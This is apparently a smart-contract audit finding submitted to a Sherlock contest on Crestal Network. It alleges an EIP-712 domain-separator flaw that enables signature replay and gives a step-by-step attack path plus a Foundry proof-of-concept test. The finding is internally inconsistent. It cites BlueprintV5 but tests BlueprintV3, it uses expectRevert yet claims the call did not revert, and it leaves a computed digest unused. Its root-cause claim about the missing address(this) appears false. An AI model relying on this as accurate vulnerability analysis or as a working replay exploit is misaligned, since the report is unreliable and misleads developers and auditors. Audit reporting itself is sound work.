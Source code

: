 Straight Beige Kangaroo

High

# EIP-712 Domain Separation Misconfiguration Enables Replay Attacks

### Summary

The EIP-712 domain separator in BlueprintV5.sol is not explicitly set using address(this), which could result in signature validation issues, signature replay attacks, and potential message forgery if the verifying contract changes or if different contracts within the protocol use the same domain separator.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/EIP712.sol#L19-L31

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/EIP712.sol#L47-L51


### Root Cause

The domain separator is initialized in BlueprintV5.sol using:

```solidity
__EIP712_init(SIGNING_DOMAIN, VERSION);
```
However, there is no explicit use of address(this) in the domain separator generation. Instead, the verifying contract defaults to the one stored in EIP712Upgradeable, which may not always align with the contract performing the verification.

Since the domain separator is inherited from EIP712Upgradeable, any change in contract interactions (such as protocol upgrades or proxy changes) could break signature validation or allow signature replay across different deployments.

### Internal Pre-conditions

The internal preconditions revolve around how the domain separator is defined, whether it is mutable, and how signature verification is implemented. If the separator is incorrectly configured, it can invalidate existing signatures or allow signatures to be replayed across different contracts, leading to security risks.

### External Pre-conditions

1. An Attacker Possesses a Valid Signature

2. A user signs a transaction off-chain for an action such as submitting a proposal, authorizing a deployment, or any other function requiring EIP-712 signatures.
The attacker obtains this signed message, either through social engineering, front-running, logging systems, or any other method.
A Mutable or Shared Domain Separator Exists

3. The contract's EIP-712 domain separator is not strictly tied to address(this), meaning it could be shared across multiple contracts or modified over time.
This allows an attacker to replay the same signature in a different contract or at a later time after the domain separator has been updated.

### Attack Path


Step 1: Attacker Obtains a Valid Signature
A legitimate user signs an off-chain message (e.g., for submitting a proposal, authorizing a deployment, or other EIP-712-based actions).
The attacker intercepts or acquires this signature in one of the following ways:
Social engineering: Tricking the user into revealing a signed message.
Front-running or logging: Monitoring off-chain logs or transaction mempools.
Shared signature use: The user unknowingly signs a message valid across multiple contracts.

Step 2: Exploit Domain Separator Misconfiguration
The smart contract uses an incorrect domain separator (e.g., based on a protocol address instead of address(this)).
If the domain separator is shared across multiple contracts, the attacker can reuse the same signature in different contracts.
If the domain separator changes over time (e.g., using setProtocol() or contract upgrades), past signatures may become valid again in different contexts.

Step 3: Attacker Replays the Signature
The attacker sends a transaction with the previously obtained valid signature.
Due to the misconfigured domain separator, the contract verifies the signature as valid, even though it was originally intended for a different action, contract, or context.
If nonce tracking is missing or improperly implemented, the same signature can be used multiple times, enabling repeated unauthorized actions.

Step 4: Consequences of the Attack
Duplicate or unauthorized actions: The attacker submits the same transaction multiple times (e.g., re-executing a previously authorized proposal, deployment, or fund withdrawal).
Cross-contract execution: If the signature is valid across multiple contracts, an attacker can execute it in an unintended contract.
Bypass of security checks: If protocol upgrades or contract modifications reset or change the domain separator, previously expired or invalid signatures become valid again.

### Impact

This vulnerability directly affects the security, financial stability, and governance integrity of the protocol. It enables:

1. Replay attacks (leading to repeated execution of critical functions).
2. Cross-contract signature abuse (allowing unintended contract interactions).
3. Potential fund loss or governance manipulation.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV3} from "../src/BlueprintV3.sol";
import {stdError} from "forge-std/StdError.sol";
import "@openzeppelin/contracts-upgradeable/utils/cryptography/EIP712Upgradeable.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract EIP712ReplayAttackPoC is Test, EIP712Upgradeable {
    BlueprintV3 public blueprint;
    uint256 public signerPrivateKey;
    address public signerAddress;
    bytes public signature;

    function setUp() public {
        blueprint = new BlueprintV3();
        blueprint.initialize();

        signerPrivateKey = 0xA11CE;
        signerAddress = vm.addr(signerPrivateKey);
    }

    function test_EIP712ReplayAttackCon() public {
        string memory base64RecParam = "data:image/png;base64,testdata";
        string memory serverURL = "https://example.com";

        /// ------------------- Step 1: Generate Signature for Proposal Request -------------------
        bytes32 projectId1 = keccak256(abi.encodePacked("ReplayAttackTest1"));
        bytes32 digest1 = blueprint.getRequestProposalDigest(projectId1, base64RecParam, serverURL);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, digest1);
        bytes memory signature1 = abi.encodePacked(r, s, v);

        console.log("Generated Signature:", uint256(r), uint256(s), uint256(v));

        // Use the signature for the proposal request
        bytes32 requestID1 = blueprint.createProjectIDAndProposalRequestWithSig(
            projectId1,
            base64RecParam,
            serverURL,
            signature1
        );

        console.log("First Request ID (Proposal):", uint256(requestID1));

        /// ------------------- Step 2: Replay the Signature for Deployment Request -------------------
        bytes32 projectId2 = keccak256(abi.encodePacked("ReplayAttackTest2"));

        vm.expectRevert("Replay attack detected"); // Expect this to fail if protection exists
        bytes32 requestID2 = blueprint.createProjectIDAndDeploymentRequestWithSig(
            projectId2,
            base64RecParam,
            serverURL,
            signature1 // Reusing the same signature
        );

        console.log("Second Request ID (Deployment):", uint256(requestID2));

        /// ------------------- Step 3: Replay the Signature with Different Domain -------------------
        bytes32 projectId3 = keccak256(abi.encodePacked("ReplayAttackTest3"));
        bytes32 digest3 = blueprint.getRequestDeploymentDigest(projectId3, base64RecParam, serverURL);

        vm.expectRevert("Replay attack detected"); // Expect this to fail if domain separation is enforced
        bytes32 requestID3 = blueprint.createProjectIDAndProposalRequestWithSig(
            projectId3,
            base64RecParam,
            serverURL,
            signature1 // Reusing the same signature for a different project
        );

        console.log("Third Request ID (Reused Signature):", uint256(requestID3));

        assertNotEq(requestID1, requestID2, "Replay attack was successful! Signature was reused!");
    }
}
```

The test expected a replay attack to be blocked, but the call did not revert, meaning the same signature was reused across different project IDs. This suggests a replay attack is possible.

### Mitigation

_No response_